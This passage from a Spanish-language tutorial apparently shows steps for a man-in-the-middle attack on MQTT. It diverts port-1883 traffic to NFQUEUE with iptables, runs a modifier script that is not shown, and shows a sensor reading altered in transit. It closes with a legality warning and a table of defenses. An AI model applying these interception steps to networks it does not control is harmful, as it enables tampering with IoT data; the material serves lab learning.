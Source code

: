 
#### 🧰 Paso 5: Redirigir tráfico MQTT a tu script

```bash
sudo iptables -I FORWARD -p tcp --dport 1883 -j NFQUEUE --queue-num 0
```

(Esto intercepta paquetes que van al puerto MQTT)

---

#### ▶️ Paso 6: Ejecutar el script

```bash
sudo python3 mqtt_modifier.py
```

---

#### 🧪 Paso 7: Probar el resultado

1. En el cliente, publica:

```bash
mosquitto_pub -h 192.168.1.100 -t sensores/temp -m "24.5"
```

2. En el suscriptor (otro cliente), observarás:

```
99.9
```

✅ El mensaje ha sido **modificado en tránsito**, antes de llegar al suscriptor.

---

#### 🧹 Paso 8: Limpiar reglas iptables

```bash
sudo iptables -F
```

---

### 🚨 ¿Es esto legal?

No si se hace en redes que no te pertenecen. Solo hazlo en:

- 🔬 Laboratorios controlados
- ⚙️ Máquinas virtuales de pruebas
- 🔐 Entornos de pentesting con autorización

---

### 🛡️ ¿Cómo proteger MQTT contra ataques MITM?

| Defensa             | Cómo ayuda                                     |
| ------------------- | ---------------------------------------------- |
| TLS/SSL             | Cifra el tráfico MQTT para evitar modificación |
| Autenticación       | Requiere usuario/clave o certificados          |
| Topics restringidos | Limita qué puede publicar quién                |
| IDS/IPS             | Detecta tráfico MQTT anómalo                   |
| Firewalls           | Solo permitir IPs autorizadas                  |

---